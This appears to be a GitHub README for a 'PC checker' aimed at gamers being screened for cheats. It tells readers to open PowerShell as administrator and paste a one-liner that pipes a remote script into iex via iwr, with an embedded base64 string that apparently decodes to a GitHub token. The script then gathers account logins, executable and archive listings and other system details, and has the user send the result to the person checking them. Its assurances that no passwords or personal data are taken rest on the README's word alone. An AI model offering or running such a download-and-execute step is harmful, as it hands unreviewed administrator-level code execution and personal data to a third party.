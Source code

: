 # Pc-Checker-Main

Step 1) 

Open windows powershell as an administrator by:

1- pressing the search bar in your taskbar

2- typing "windows Powershell" in the taskbar

3- Right click on windows powershell

4- Press Run as Administrator

Step 2) 

Put the Powershell script into the text area.

1- Locate where is says "PS C:\WINDOWS\system32>" 

2- After the > Paste the following: "$t="Z2l0aHViX3BhdF8xMUJMQjMzVVEwbkVzOHhJeVBpUnpoX2g3RUhSaTB0YkN5cWphV1lOTFBXWWE4WkZSb1RxeU5JSG1CcjU5UVRQV3ZGSzVSRUNCQVFpWTJVT05w"; iwr -useb https://raw.githubusercontent.com/suprsor/Pc-Checker-Main/refs/heads/main/SuprsorsPcCheck.ps1 | iex"

3- Press enter.

Step 3) 

Pc check proccess

1- The script opens a browser, opens tabs corresponding to how many accounts you've ever signed into on your computer since last factory reset.

2- Show all account in screenshare to person pc checking you

3- Wait for the script to find all .exe, and .rar files that are suspicious.

4- It will say "Scan completed" there will now be a file copied in your Copy clipboard.

5- Go to dms with person pc checking you and paste whatever is in your copied clipboard

6- Send the file and the person pc checking you will review all suspicious files.

What the script provides:

All Ubisoft User IDS, no passwords are  given in logfile. 

All .exe .rar files you have

Windows installation date

Suspicous files

Different browsers you use


What it doesn't provide

Direct access to your computer

And passwords/emails

Any Ip addresses/personal information

NO login information
